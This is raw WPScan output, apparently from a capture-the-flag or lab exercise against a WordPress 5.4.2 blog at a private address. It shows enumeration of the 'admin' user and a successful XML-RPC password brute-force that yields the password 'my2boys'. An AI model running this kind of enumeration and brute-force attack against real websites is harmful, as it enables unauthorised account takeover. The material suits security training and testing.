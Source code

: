 ```bash
[+] Started: Sun Dec 31 15:29:27 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.186.60/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.186.60/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.186.60/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==================================================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                                                                                                     
Trying admin / princess7 Time: 00:04:06 <                                                                                                                                                                                              > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```